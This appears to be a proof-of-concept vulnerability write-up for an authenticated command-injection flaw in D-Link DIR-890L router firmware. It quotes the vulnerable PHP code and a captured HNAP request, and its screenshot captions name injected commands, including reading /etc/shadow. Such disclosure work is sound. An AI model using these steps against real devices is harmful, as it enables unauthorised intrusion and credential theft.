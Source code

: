 # D-Link DIR-890L RCE
Affected: Versions <= v1.22B01 Hotfix (latest)

Firmware: [Here](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-890L)

This model has reached the end of its life-cycle. The resources associated with these products have ceased their development and are no longer supported.
D-Link Systems, Inc. recommends retiring these products and replacing them with products that receive firmware updates.

## Vulnerability
In its firmware we can find a function `getWOLMAC` in `SetVirtualServerSettings.php`
```php
function getWOLMAC($ipv4addr)
{
	$cmd = "scut -p ".$ipv4addr." -f 3 /proc/net/arp";
	setattr("/runtime/wakeonlan/mac", "get", $cmd);
	$mac = get("", "/runtime/wakeonlan/mac");
	del("/runtime/wakeonlan/mac");
	return $mac;
}
```
The `$cmd` concatenates `$ipv4addr` directly into command without filtering, and it is called at
```php
		$ipv4addr = get("x", "LocalIPAddress");
        ...
		if($description == "Wake-On-Lan")
		{
			$wolmac = getWOLMAC($ipv4addr);
			set($vsvr_entry.":".$InDeX."/wakeonlan_mac", $wolmac);
		}
```
So When you set `$description` (corresponding to virtual server name) as `"Wake-On-Lan"`, there may exist `RCE`(remote command execution) in Virtual Server related pages: `/VirtualServer.html`.

## Exploit
It requires authentication, so log in first.
![Login](pic/login.png)
![Home](pic/home.png)

- Then visit [Virtual Server page (/VirtualServer.html)](http://192.168.0.1/VirtualServer.html) which is inaccessible through panel.
![Virtual Server](pic/virtualserver.png)

- Add a rule named `Wake-On-Lan`.
![Add rule](pic/addrule.png)
![Rule results](pic/ruleres.png)

- Start `burpsuite` before click `Save` button and capture the following packet:
![packet](pic/packet.png)
```h
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: A4A816AE6CF2AC5537B0EB390FFB591C 1436839665
Content-Length: 765
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/VirtualServer.html
Cookie: uid=ZeNYZag3Gw

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>Wake-On-Lan</VirtualServerDescription>
					<ExternalPort>1</ExternalPort>
					<InternalPort>1</InternalPort>
					<ProtocolType>TCP</ProtocolType>
					<ProtocolNumber>6</ProtocolNumber>
					<LocalIPAddress>192.168.0.100</LocalIPAddress>
					<ScheduleName></ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

- Prepare a http server then:
![python server](pic/pythonserver.png)

- Use `Repeater` module to test `RCE`(remote command execution):
![burpsuite](pic/burp.png)

- And we get:
![result](pic/res.png)

- Test commands injection and read `/etc/shadow`:
![command ls /busy/box](pic/burpls.png)
![result](pic/resls.png)
![command ls /busybox -al](pic/burplsal.png)
![result](pic/reslsal.png)
![command cat /etc/shadow](pic/burpcat.png)
![result](pic/rescat.png)



